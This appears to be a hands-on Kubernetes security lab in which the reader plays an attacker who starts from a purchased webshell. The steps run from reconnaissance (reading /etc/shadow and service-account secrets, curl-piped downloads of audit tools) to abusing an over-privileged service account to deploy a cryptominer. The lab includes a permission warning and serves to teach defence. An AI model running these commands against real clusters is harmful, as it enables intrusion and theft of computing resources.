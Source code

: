# Free Compute: Scenario 1 Attack

## Warning

In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment.

In the real world, use good judgement. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space for specific issues
* Leverages off-the-shelf attacks
* Basic Kubernetes knowledge

### Motivations

* __Red__’s intrusion-as-a-service provider compromises website and uploads a webshell
* __Red__ gets the URL of the webshell and wants to deploy some crypto-miners

## Initial Access

__Red__ has been mining `bitcoinero` for a few months now, and it's starting to gain some value.  To capitalize on this bubble, __Red__ uses a service that sells shell access to expand the mining pool.  To find the compromised website, run the following from your Cloud Shell terminal:

```console
./check-email.sh
```

Log into the URL in a browser, and you should be looking at a working web terminal.

![webshell screenshot](img/webshell.png)

## Thinking In Trees

Attacking a system is a problem-solving process similar to troubleshooting: __Red__ begins with a goal (deploy an unauthorized cryptominer) but doesn't really know what resources are available to achieve that goal. They will have to start with what little they already know, perform tests to learn more, and develop a plan.

The general process looks like this:

![attack lifecycle](img/attack-lifecycle.png)

* __Study__

    In this phase, use enumeration tools to start from the information you have, and get more information. Which tools to use will depend on the situation. For example, `nmap` is commonly used to enumerate IP networks. `nikto`, `burp`, and `sqlmap` are interesting ways to learn more about web applications. Windows and Linux administrative utilities such as `uname`, `winver`, and `netstat` provide a wealth of information about their host OSes.

* __Plan__

    In this phase, think about everything you currently know, and what actions you can take based on that knowledge. If you think you can do something that will help you get closer to your goal, move onto Attack. Otherwise, go back to Study and try to learn more.

* __Attack Something__

    In this phase, you take some action in the hope of getting closer to your goal. This may be running an exploit tool against a buggy piece of software, launching some kind of credential-guessing utility, or even just running a system command like kubectl apply. Your success or failure will teach you more about your target and situation. Move on to Study, Persist, or Win, as appropriate.

* __Persist__

    In this optional phase, you take some action to make it easier to re-enter the system or network at a later time. Common options are running a malware Remote Access Tool such as Meterpreter, creating new accounts for later use, and stealing passwords.

* __Win__

    Eventually, you may achieve your goals. Congratulations! Now you can stop hacking and begin dreaming about your next goal.

## Getting Some Loot

Since __Red__ already has a shell on a compromised host (Thanks, Natoshi!), the process is fairly simple. They need to identify the resources available to them by poking around, and then run the cryptominer as easily as possible:

Let's become __Red__ and try some basic information-gathering commands to get a feel for the environment:

```console
id
```
```console
uname -a
```
```console
cat /etc/lsb-release /etc/redhat-release
```
```console
ps -ef
```
```console
df -h
```
```console
netstat -nl
```

Note that the kernel version doesn't match up to the reported OS, and there are very few processes running. This is probably a container.

Let's do some basic checking to see if we can get away with shenanigans. Look around the filesystem. Try downloading and running <a href="http://pentestmonkey.net/tools/audit/unix-privesc-check" target="_blank">a basic Linux config auditor</a> to see if it finds any obvious opportunities. Search a bit on https://www.exploit-db.com/ to see if there's easy public exploits for the kernel.

```console
cat /etc/shadow
```
```console
ls -l /home
```
```console
ls -l /root
```
```console
cd /tmp; curl http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz | tar -xzvf -; unix-privesc-check-1.4/unix-privesc-check standard
```

That's not getting us anywhere. Let's follow-up on that idea that it's maybe a container:

```console
cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

This tells us several things:

* We are in a container, and it's managed by Kubernetes
* Some security features are not in use (userns)
* The host seems to be running the default Docker seccomp profile, restricting some key kernel calls
* We don't have any exciting capabilities. <a href="http://man7.org/linux/man-pages/man7/capabilities.7.html" target="_blank">Click for more capabilities info.</a>

Now let's inspect our Kubernetes environment:

```console
env | grep -i kube
```
```console
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```
```console
ls /var/run/secrets/kubernetes.io/serviceaccount
```

We have typical Kubernetes-related environment variables defined, and we have anonymous access to some parts of the Kubernetes API. We can see that the Kubernetes version is modern and supported -- but there's still hope if the Kubernetes security configuration is sloppy. Let's check for that next:

```console
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl; chmod 555 kubectl
```
```console
kubectl get all
```
```console
kubectl get all -A
```
```console
kubectl get namespaces
```

By default, kubectl will attempt to use the default service account in `/var/run/secrets/kubernetes.io/serviceaccount` -- and it looks like this one has some API access. Note that we can't see anything outside our namespace, though.

Let's inspect what all we __can__ do:

```console
kubectl auth can-i --list
```

Happy day! Our service account is admin in our pod's namespace! Maybe the dashboard on port 31337 needs that much access? Anyway, this gives us what we need to achieve our goals.

```console
cd /tmp; cat > bitcoinero.yml <<EOF
apiVersion: extensions/v1beta1
kind: Deployment
metadata:
  labels:
    run: bitcoinero
  name: bitcoinero
  namespace: prd
spec:
  replicas: 1
  revisionHistoryLimit: 2
  selector:
    matchLabels:
      run: bitcoinero
  strategy:
    rollingUpdate:
      maxSurge: 25%
      maxUnavailable: 25%
    type: RollingUpdate
  template:
    metadata:
      labels:
        run: bitcoinero
    spec:
      containers:
      - image: securekubernetes/bitcoinero:latest
        name: bitcoinero
        command: ["./moneymoneymoney"]
        args:
        - -c
        - "1"
        - -l
        - "10"
        resources:
          requests:
            cpu: 100m
            memory: 128Mi
          limits:
            cpu: 200m
            memory: 128Mi 
EOF

./kubectl apply -f bitcoinero.yml
sleep 10
./kubectl get pods
```

We can see the bitcoinero pod running, starting to generate us a small but steady stream of cryptocurrency.

_MISSION ACCOMPLISHED_
